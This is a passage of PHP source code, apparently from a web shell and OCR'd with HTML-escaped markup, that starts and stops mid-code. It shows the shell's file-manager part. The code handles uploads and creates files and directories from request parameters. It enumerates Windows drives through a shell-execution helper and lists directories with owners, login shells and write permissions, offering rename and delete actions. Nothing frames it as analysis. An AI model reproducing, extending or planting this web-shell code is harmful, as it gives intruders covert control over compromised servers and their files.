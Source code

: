 echo "$msgbox&lt;b&gt;Uploaded!&lt;/b&gt; File name: ".$_FILES['uploadfile']['name']." File size: ".$_FILES['uploadfile']['size']. "$et&lt;br&gt;";
}
$select = "&lt;select onChange=\"window.location=this.options[this.selectedIndex].value;\"&gt;&lt;option value=\"".hlinK("seC=fm&workingdiR=$cwd")."\"&gt;--------&lt;/option&gt;&lt;option value=\"";
if (!empty($_REQUEST['newf'])){
if (!empty($_REQUEST['newfile'])){file_put_contents($_REQUEST['newf'],"");}
if (!empty($_REQUEST['newdir'])){mkdir($_REQUEST['newf']);}
}
if ($windows){
echo "$table&lt;td&gt;&lt;b&gt;Drives:&lt;/b&gt; ";
for ($i=66;$i&lt;=90;$i++){$drive= chr($i).':';
if (is_dir($drive."\\")){$vol=shelL("vol $drive");if(empty($vol))$vol=$drive;echo " &lt;a title=\"$vol\" href=".hlinK("seC=fm&workingdiR=$drive\\")."&gt;$drive\\&lt;/a&gt;";}
}
echo $et;
}
echo "$table&lt;form method=\"POST\"&gt;&lt;tr&gt;&lt;td width=\"20%\"&gt;&lt;b&gt;Location:&lt;/b&gt;&lt;input type=text name=workingdiR size=135 value=\"".getcwd()."\"&gt;&lt;input class=buttons type=submit value=Change&gt;&lt;/td&gt;&lt;/tr&gt;&lt;/form&gt;&lt;/table&gt;";
$file=array();$dir=array();$link=array();
if($dirhandle = opendir($cwd)){
while ($cont=readdir($dirhandle)){
if (is_dir($cwd.DIRECTORY_SEPARATOR.$cont)) $dir[]= $cont;
elseif (is_file($cwd.DIRECTORY_SEPARATOR.$cont)) $file[]=$cont;
else $link[]=$cont;
}
closedir($dirhandle);
sort($file);sort($dir);sort($link);
echo "&lt;table border=1 cellpadding=0 cellspacing=0 style=\"border-collapse: collapse\" bordercolor=\"#282828\" bgcolor=\"#333333\" width=\"100%\"&gt;&lt;tr&gt;&lt;td width=\"30%\" bgcolor=\"#333333\" align=\"center\"&gt;Name&lt;/td&gt;&lt;td width=\"13%\" bgcolor=\"#333333\" align=\"center\"&gt;Owner&lt;/td&gt;&lt;td width=\"12%\" bgcolor=\"#333333\" align=\"center\"&gt;Modification time&lt;/td&gt;&lt;td width=\"12%\" bgcolor=\"#333333\" align=\"center\"&gt;Last change&lt;/td&gt;&lt;td width=\"5%\" bgcolor=\"#333333\" align=\"center\"&gt;Info&lt;/td&gt;&lt;td width=\"7%\" bgcolor=\"#333333\" align=\"center\"&gt;Size&lt;/td&gt;&lt;td width=\"15%\" bgcolor=\"#333333\" align=\"center\"&gt;Actions&lt;/td&gt;&lt;/tr&gt;";
$i=0;
foreach($dir as $dn){
echo "&lt;tr&gt;";
$i++;
$own="Unknow";
$owner=posix_getpwuid(fileowner($dn));
$mdate=date("Y/m/d H:i:s",filemtime($dn));
$adate=date("Y/m/d H:i:s",fileatime($dn));
$diraction = $select.hlinK("seC=fm&workingdiR=".realpath($dn))."\"&gt;Open&lt;/option&gt;&lt;option value=\"".hlinK("seC=fm&workingdiR=$cwd&rN=$dn")."\"&gt;Rename&lt;/option&gt;&lt;option value=\"".hlinK("seC=fm&deL=$dn&workingdiR=$cwd")."\"&gt;Remove&lt;/option&gt;&lt;/select&gt;&lt;/td&gt;";
if ($owner) $own = "&lt;a title=\" Shell: ".$owner['shell']."\" href=\"".hlinK("seC=fm&workingdiR=".$owner['dir'])."\"&gt;".$owner['name']."&lt;/a&gt;";
if (($i%2)==0){$cl1=$td1i;$cl2=$td1n;}else{$cl1=$td2i;$cl2=$td2m;}
if (is_writeable($dn)) echo $tdw;elseif (!is_readable($dn)) echo $tdnr;else echo $cl2;
echo "&lt;a href=\"".hlinK("seC=fm&workingdiR=".realpath($dn))."\"&gt;";
if (strlen($dn)&gt;45)echo substr($dn,0,42)."...";else echo $dn;echo "&lt;/a&gt;";
echo $cl1."$own&lt;/td&gt;";
echo $cl1."$mdate&lt;/td&gt;";
echo $cl1."$adate&lt;/td&gt;";
echo "&lt;/td&gt;${cl1}D";if (is_readable($dn)) echo "R";if (is_writeable($dn)) echo "W";echo "&lt;/td&gt;";
echo "$cl1------&lt;/td&gt;";
echo $cl2.$diraction;
echo "&lt;/tr&gt;" ;
flusheR();
}